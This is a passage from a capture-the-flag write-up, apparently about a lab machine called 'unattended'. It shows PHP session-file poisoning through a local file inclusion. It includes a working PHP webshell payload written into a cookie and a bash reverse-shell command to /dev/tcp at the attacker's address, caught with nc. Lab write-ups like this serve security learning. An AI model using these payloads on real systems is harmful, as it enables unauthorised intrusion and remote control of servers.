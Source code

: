 #### PHP Session File

I don't have a direct way to write a webshell to disk to have it
included. However, I can do some log/session poisoning. I'll write my
`php` shell into a cookie so that it poisons the php session data, and
read that out of `/var/lib/php/sessions/`. I'll look at my last
successful request and get the `PHPSESSID` cookie value, in my case
`6mprk04iu3frud82i1pvnfehl1`. Now I'll send that injection to repeater
and replace `/etc/passwd` with
`/var/lib/php/sessions/sess_6mprk04iu3frud82i1pvnfehl1`:

[![](/img/1561209240007.png)*Click for full
size ![image*](/img/1561209240007.png)

I've marked in red the included part, which contains the PHPSESSID. If
that is set by a cookie, can I set other data there? I'll add a test
cookie:

[![](/img/1561209395830.png)*Click for full
size ![image*](/img/1561209395830.png)

It may take a couple page loads for the new cookie to write to the file,
but it's there eventually.

#### Webshell

I'll add a new cookie:



    shell=<?php system($_GET['cmd']); ?>



I'll url-encode that and submit a couple times:

[![](/img/1561210237340.png)*Click for full
size ![image*](/img/1561210237340.png)

#### Shell

Now I can update the `cmd` to
`bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'` (url-encoded) and
catch a shell with `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.126.
    Ncat: Connection from 10.10.10.126:43858.
    bash: cannot set terminal process group (605): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@unattended:/var/www.md$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
